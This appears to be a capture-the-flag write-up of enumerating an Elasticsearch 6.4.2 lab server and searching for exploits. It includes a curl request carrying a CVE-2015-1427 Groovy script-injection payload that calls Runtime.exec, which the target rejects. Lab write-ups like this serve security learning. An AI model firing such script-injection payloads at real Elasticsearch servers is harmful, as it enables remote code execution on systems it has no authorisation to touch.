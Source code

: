 #### Manual enumeration
If we perform a GET request to the index page, we can see:
```json
❯ curl "http://10.10.10.115:9200" -s | jq
{
  "name": "iQEYHgS",
  "cluster_name": "elasticsearch",
  "cluster_uuid": "pjrX7V_gSFmJY-DxP4tCQg",
  "version": {
    "number": "6.4.2",
    "build_flavor": "default",
    "build_type": "rpm",
    "build_hash": "04711c2",
    "build_date": "2018-09-26T13:34:09.098244Z",
    "build_snapshot": false,
    "lucene_version": "7.4.0",
    "minimum_wire_compatibility_version": "5.6.0",
    "minimum_index_compatibility_version": "5.0.0"
  },
  "tagline": "You Know, for Search"
}
```
We should notice the cluster name `elasticsearch` and the fact that it is outdated. If we look for exploits:
```bash
❯ searchsploit elasticsearch
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
ElasticSearch - Remote Code Execution            | linux/remote/36337.py
ElasticSearch - Remote Code Execution            | multiple/webapps/33370.html
ElasticSearch - Search Groovy Sandbox Bypass (Me | java/remote/36415.rb
ElasticSearch 1.6.0 - Arbitrary File Download    | linux/webapps/38383.py
ElasticSearch 7.13.3 - Memory disclosure         | multiple/webapps/50149.py
ElasticSearch < 1.4.5 / < 1.5.2 - Directory Trav | php/webapps/37054.py
ElasticSearch Dynamic Script - Arbitrary Java Ex | java/remote/33588.rb
Elasticsearch ECE 7.13.3 - Anonymous Database Du | multiple/webapps/50152.py
------------------------------------------------- ---------------------------------
```
We can see a python code that allows RCE and does not specify te version at which it is vulnerable. If we look up the code we find the [CVE-2015-1427](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1427), it specifies that the version should be lower than 1.4.3, but it is worth a try.

### RCE via ElasticSearch
As we mentioned, we are going to use a python exploit:
```bash
❯ searchsploit -m linux/remote/36337.py
❯ mv 36337.py Exploits
```
If we read the exploit, we can see that the RCE is taking place through this request:
```bash
❯ curl "http://10.10.10.115:9200" -s -H "Content-Type:application/json" -d '{"size":1, "script_fields": {"lupin":{"script": "java.lang.Math.class.forName(\\"java.lang.Runtime\\").getRuntime().exec(\\"whoami\\").getText()"}}}'
{"error":"Incorrect HTTP method for uri [/] and method [POST], allowed: [HEAD, DELETE, GET]","status":405}%
```
But the web server does not allow POST requests, so the exploit is patched.
 